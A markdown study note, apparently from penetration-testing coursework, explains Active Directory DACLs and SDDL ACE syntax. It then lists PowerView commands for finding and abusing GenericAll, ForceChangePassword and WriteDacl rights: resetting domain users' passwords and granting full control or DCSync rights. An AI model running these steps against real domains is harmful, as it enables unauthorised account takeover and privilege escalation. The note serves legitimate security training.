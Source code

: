 ## AD Object Security Permissions

In active Drictory, access to an object is controlled through a Discretionary Access Control List(DACL), which consists of a series of Access Control Entries(ACE).  When multiple ACE's are present, their order is important. If a deny ACE comes before an allow ACE, the dent takes precedence. 

The ACE is stored arccording to the Secutiry Descriptor Definition Language(SDDL).
- ace_type:designates whether the ACE allows or denies permissions
- ace_flags:related to inheritance on child objects
- ace_rights
- object_guid
- inherit_object_guid
- account_sid:SID of the object

```
(A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0)
```
We can reference the [microsoft doc](https://docs.microsoft.com/en-us/windows/win32/secauthz/generic-access-rights) to read/understand the access rights

we cab enumernate the AD OBJ with Get-ObjectAcl, the foreach resolve the SID through ConvertFrom-SID

```
PS C:\tools> Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

#### Generuic All abuse

import powerview
```
PS C:\tools> . .\powerview.ps1
```

The GenericAll access right, which gives full control of the targeted object. 

We can get enumerate all domain users that our current account has GenericAll rights to it, or we can replace **Get-DomainGroup** to find a group 

```
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID
$_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

if we found an account that we have access to it, we can update the password, we can do the samething with **ForceChangePassword** and **AllExtendedRights** access rights to change the password of a user account in a similar way without supplying the old password.
```
PS C:\tools> net user testservice1 pass /domain
```

if our user has **WriteDacl** permission to a AD object, we can use Add-DomainObjectAcl PowerView method to apply additional access rights
such as GenericAll, GenericWrite, or even DCSync if the targeted object is the domain object

```
PS C:\tools> Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```
